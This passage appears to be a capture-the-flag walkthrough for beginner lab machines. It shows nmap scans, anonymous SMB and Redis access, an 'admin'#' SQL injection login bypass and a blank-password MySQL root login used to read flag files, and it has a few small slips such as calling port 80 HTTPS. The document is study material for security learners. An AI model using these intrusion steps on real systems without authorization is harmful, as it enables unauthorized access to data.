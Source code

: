 4. list the files in folder *WorkShares* smb: \> `ls`

5. Check the file *James.P* owns, the flag is inside *flag.txt*

6. smb: \James.P\> `get flag.txt`

# 0.4 Redeemer

1. Check the TCP port opened on the machine, `-T5` used for quicker enum, `-sS` is check for the TCP SYN scan (half of the TCP handshake), `-sV` is used to check the version of the service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. port 6379/tcp is opened for **Redis** service **version 5.0.7**, Redis is an **in-memory database**

3. connect to Redis server, `-h` means host

   `redis-cli -h TARGET_IP`

5. Connected success, select the first database in Redis: `select 0`

6. List all the keys in this database: `keys *`, the flag is in the *flag* key

7. Look at the value of the key *flag* by `get flag`

# 1.1 Appointment

1. Check port 80 (HTTPS), and it is running

   `nmap -p 80 TARGET_IP`

2. Browse TARGET_IP in browser

3. Input `admin'#` for username (which is **SQL injection**), do not empty the password field

# 1.2 Sequel

1. Check running service, and port 3306 is running *SQL* service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. We can connect to the database with user **root** by a blank password

   `mysql -h TARGET_IP -u root`

3. After connecting to the database, check what schema is there: `show database;`

4. Use the schema htb: `use htb;`

5. See what tables in the schema: `show tables;`

6. See what is inside the *config* table: `select * from config;`, flag is there

# 1.3 Crocodile

1. Check running service on port 21 with version detection
